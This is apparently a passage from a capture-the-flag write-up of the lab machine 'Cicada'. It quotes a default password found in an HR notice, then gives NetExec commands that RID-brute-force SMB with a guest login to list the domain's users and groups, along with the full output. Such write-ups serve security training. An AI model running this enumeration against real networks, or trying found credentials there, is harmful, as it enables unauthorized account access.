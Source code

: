 The contents of the file \`Notice From HR.txt\` included a message from the HR notifying the new employee about their default password, although username was not mentioned.

user default password: `Cicada$M6Corpb*@Lp#nZp!8`

now i need to guess which user's password is this.

I'm going to enumerate users by Brute-forcing RID's using NetExec tool

```
> nxc smb 10.10.11.35  -u guest -p '' --rid-brute
OR
> nxc smb 10.10.11.35  -u none -p '' --rid-brute
```

Both of the above produces the same result

```
SMB  10.10.11.35     445    CICADA-DC        [*] Windows Server 2022 Build 20348 x64 (name:CICADA-DC) (domain:cicada.htb) (signing:True) (SMBv1:False)
SMB  10.10.11.35     445    CICADA-DC        [+] cicada.htb\guest: 
SMB  10.10.11.35     445    CICADA-DC        498: CICADA\Enterprise Read-only Domain Controllers (SidTypeGroup)
SMB  10.10.11.35     445    CICADA-DC        500: CICADA\Administrator (SidTypeUser)
SMB  10.10.11.35     445    CICADA-DC        501: CICADA\Guest (SidTypeUser)
SMB  10.10.11.35     445    CICADA-DC        502: CICADA\krbtgt (SidTypeUser)
SMB  10.10.11.35     445    CICADA-DC        512: CICADA\Domain Admins (SidTypeGroup)
SMB  10.10.11.35     445    CICADA-DC        513: CICADA\Domain Users (SidTypeGroup)
SMB  10.10.11.35     445    CICADA-DC        514: CICADA\Domain Guests (SidTypeGroup)
SMB  10.10.11.35     445    CICADA-DC        515: CICADA\Domain Computers (SidTypeGroup)
SMB  10.10.11.35     445    CICADA-DC        516: CICADA\Domain Controllers (SidTypeGroup)
SMB  10.10.11.35     445    CICADA-DC        517: CICADA\Cert Publishers (SidTypeAlias)
SMB  10.10.11.35     445    CICADA-DC        518: CICADA\Schema Admins (SidTypeGroup)
SMB  10.10.11.35     445    CICADA-DC        519: CICADA\Enterprise Admins (SidTypeGroup)
SMB  10.10.11.35     445    CICADA-DC        520: CICADA\Group Policy Creator Owners (SidTypeGroup)
SMB  10.10.11.35     445    CICADA-DC        521: CICADA\Read-only Domain Controllers (SidTypeGroup)
SMB  10.10.11.35     445    CICADA-DC        522: CICADA\Cloneable Domain Controllers (SidTypeGroup)
SMB  10.10.11.35     445    CICADA-DC        525: CICADA\Protected Users (SidTypeGroup)
SMB  10.10.11.35     445    CICADA-DC        526: CICADA\Key Admins (SidTypeGroup)
SMB  10.10.11.35     445    CICADA-DC        527: CICADA\Enterprise Key Admins (SidTypeGroup)
SMB  10.10.11.35     445    CICADA-DC        553: CICADA\RAS and IAS Servers (SidTypeAlias)
SMB  10.10.11.35     445    CICADA-DC        571: CICADA\Allowed RODC Password Replication Group (SidTypeAlias)
SMB  10.10.11.35     445    CICADA-DC        572: CICADA\Denied RODC Password Replication Group (SidTypeAlias)
SMB  10.10.11.35     445    CICADA-DC        1000: CICADA\CICADA-DC$ (SidTypeUser)
SMB  10.10.11.35     445    CICADA-DC        1101: CICADA\DnsAdmins (SidTypeAlias)
SMB  10.10.11.35     445    CICADA-DC        1102: CICADA\DnsUpdateProxy (SidTypeGroup)
SMB  10.10.11.35     445    CICADA-DC        1103: CICADA\Groups (SidTypeGroup)
SMB  10.10.11.35     445    CICADA-DC        1104: CICADA\john.smoulder (SidTypeUser)
SMB  10.10.11.35     445    CICADA-DC        1105: CICADA\sarah.dantelia (SidTypeUser)
SMB  10.10.11.35     445    CICADA-DC        1106: CICADA\michael.wrightson (SidTypeUser)
SMB  10.10.11.35     445    CICADA-DC        1108: CICADA\david.orelious (SidTypeUser)
SMB  10.10.11.35     445    CICADA-DC        1109: CICADA\Dev Support (SidTypeGroup)
SMB  10.10.11.35     445    CICADA-DC        1601: CICADA\emily.oscars (SidTypeUser)
```
